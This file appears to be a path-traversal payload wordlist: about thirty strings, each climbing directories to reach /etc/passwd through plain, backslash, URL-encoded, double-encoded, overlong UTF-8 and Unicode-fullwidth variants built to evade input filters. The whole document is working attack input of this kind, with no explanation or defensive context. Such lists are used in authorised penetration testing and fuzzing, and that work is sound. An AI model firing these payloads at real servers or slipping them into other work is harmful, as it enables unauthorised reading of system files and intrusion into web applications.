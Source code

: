 # path_traversal_payloads


../../../../../../../../../../../../../../../../etc/passwd

..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\etc/passwd

..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\etc\passwd

..././..././..././..././..././..././..././..././..././..././..././..././..././..././..././..././etc/passwd

...\.\...\.\...\.\...\.\...\.\...\.\...\.\...\.\...\.\...\.\...\.\...\.\...\.\...\.\...\.\...\.\etc/passwd

..\/..\/..\/..\/..\/..\/..\/..\/..\/..\/..\/..\/..\/..\/..\/..\/etc/passwd

%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc/passwd

%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252fetc/passwd

%c0%ae%c0%ae%c0%af%c0%ae%c0%ae%c0%af%c0%ae%c0%ae%c0%af%c0%ae%c0%ae%c0%af%c0%ae%c0%ae%c0%af%c0%ae%c0%ae%c0%af%c0%ae%c0%ae%c0%af%c0%ae%c0%ae%c0%af%c0%ae%c0%ae%c0%af%c0%ae%c0%ae%c0%af%c0%ae%c0%ae%c0%af%c0%ae%c0%ae%c0%af%c0%ae%c0%ae%c0%af%c0%ae%c0%ae%c0%af%c0%ae%c0%ae%c0%af%c0%ae%c0%ae%c0%afetc/passwd

%uff0e%uff0e%u2215%uff0e%uff0e%u2215%uff0e%uff0e%u2215%uff0e%uff0e%u2215%uff0e%uff0e%u2215%uff0e%uff0e%u2215%uff0e%uff0e%u2215%uff0e%uff0e%u2215%uff0e%uff0e%u2215%uff0e%uff0e%u2215%uff0e%uff0e%u2215%uff0e%uff0e%u2215%uff0e%uff0e%u2215%uff0e%uff0e%u2215%uff0e%uff0e%u2215%uff0e%uff0e%u2215etc/passwd

%uff0e%uff0e%u2216%uff0e%uff0e%u2216%uff0e%uff0e%u2216%uff0e%uff0e%u2216%uff0e%uff0e%u2216%uff0e%uff0e%u2216%uff0e%uff0e%u2216%uff0e%uff0e%u2216%uff0e%uff0e%u2216%uff0e%uff0e%u2216%uff0e%uff0e%u2216%uff0e%uff0e%u2216%uff0e%uff0e%u2216%uff0e%uff0e%u2216%uff0e%uff0e%u2216%uff0e%uff0e%u2216etc/passwd

..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5cetc/passwd

..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5cetc\passwd

..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5cetc%5cpasswd

..%255c..%255c..%255c..%255c..%255c..%255c..%255c..%255c..%255c..%255c..%255c..%255c..%255c..%255c..%255c..%255cetc\passwd

..%255c..%255c..%255c..%255c..%255c..%255c..%255c..%255c..%255c..%255c..%255c..%255c..%255c..%255c..%255c..%255cetc%255cpasswd

..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc/passwd

..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd

..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc/passwd

..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd

./../../../../../../../../../../../../../../../../etc/passwd

.\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\etc/passwd

.\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\etc\passwd

.%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5cetc/passwd

.%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5cetc\passwd

.%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5cetc%5cpasswd

.%255c..%255c..%255c..%255c..%255c..%255c..%255c..%255c..%255c..%255c..%255c..%255c..%255c..%255c..%255c..%255c..%255cetc\passwd

.%255c..%255c..%255c..%255c..%255c..%255c..%255c..%255c..%255c..%255c..%255c..%255c..%255c..%255c..%255c..%255c..%255cetc%255cpasswd

.%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc/passwd

.%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd

.%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc/passwd

.%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd
